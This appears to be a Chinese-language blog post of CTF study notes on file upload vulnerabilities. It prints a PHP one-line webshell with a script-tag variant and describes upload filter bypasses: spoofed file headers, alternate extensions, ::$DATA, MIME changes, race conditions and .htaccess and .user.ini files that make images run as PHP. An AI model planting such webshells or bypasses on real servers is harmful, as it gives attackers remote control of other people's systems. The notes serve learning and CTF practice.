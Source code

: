 ```yaml
---
title: 文件上传漏洞
date: 2024-07-13
tags:
  - sec
draft: false
images: ['/static/images/blog/2024/mou.webp']
authors: ['default']
---
```


# 漏洞原理

---

## 概述

通过上传一句话木马，根据服务器返回的文件位置，向该路径传递POST参数，控制服务器。

- 即webshell

```php
<?php eval($_POST['a']); ?>
```

---

## 常见绕过

### 文件头绕过

| 文件类型 | 文件头HEX    | 文件头内容 |
| -------- | ------------ | ---------- |
| PNG      | 89504E47     | .PNG       |
| GIF      | 474946383961 | GIF89a     |
| JPEG     | FFD8FF       | ...        |

- `.` 表示不可见内容

给php等文件添加文件头绕过

- php、asp、jsp等文件只要任意部位有解析标签就可以，文件头加上一串字符不影响解析。

### 拓展名绕过

发现php后缀被拦截，可用其他的后缀在进行绕过。

- phtml、pht、php、php3、php4、php5
- 还有：大小写绕过、点号绕过（win）、空格绕过（win）

### ::$DATA 绕过

(WIN)如果文件名+`::$DATA`会把`::$DATA`之后的数据当成文件流处理,不会检测后缀名，且保持`::$DATA`之前的文件名，效果就是不检查后缀名。

- 如：`a.php::$DATA` 与 `a.php` 等价

### `<?` 绕过

```html
<script language="php">
  eval($_POST['zj'])
</script>
```

### MIME

MIME类型用于HTTP协议，以告知服务器接收到的文件的类型。

可以通过抓包修改MIME类型，绕过验证。

- 注意：对于图片上传可能白名单只有jpeg，导致png也被禁用，测试注意不要只测png

### 条件竞争绕过

有些网站是先允许任何文件上传，在上传之后再验证，如果验证不通过再删除文件。

但是，攻击者可以利用上传后和删除前的时间大量发送请求，有可能能访问到webshell

### 文件解压绕过

通过修改压缩包二进制文件，使其在解压时出现错误，通过出错前已经解压出的一部分文件获取webshell。

原理是：在发生解压错误时，网站逻辑会进入异常处理的分支，而开发人员往往会忽视对已经解压的文件进行检验。

---

## 解析为php

### .htaccess

- 适用于Apache

上传一个`.htaccess`文件将指定文件内容解析为php程序

```
<FilesMatch "zj.jpg">

SetHandler application/x-httpd-php

</FilesMatch>
```

### .user.ini

- 适用于Nginx

指定一个文件（如zj.jpg），将该文件就会被包含在要执行的php文件中（如index.php），类似于在index.php中插入一句：`include(zj.jpg);`

上传的图片文件的地址其实指向了一个php文件：

- 例如 `http://d2e89e76-3d3c-43ce-97ab-5a7db5826f78.node5.buuoj.cn/uploads/065831472858248584ff4993846d5065/index.php`
- **zj.jpg 在 index.php 的页面中，蚁剑也要连这个index.php**

```
GIF89a

auto_prepend_file=zj.jpg
```

---

## 前端验证

网页弹窗显然是前端验证，直接抓包是没有用的，因为前端验证是在发送数据包给后端之前的，前端验证发生错误直接return了，不会发包给后端。

解决：F12，删除前端相应检测代码；假如是js脚本，（似乎chrome中删了也没用）可以直接在f12设置中，==禁用js功能！！！==

---

#### 题目

- [极客大挑战 2019]Upload
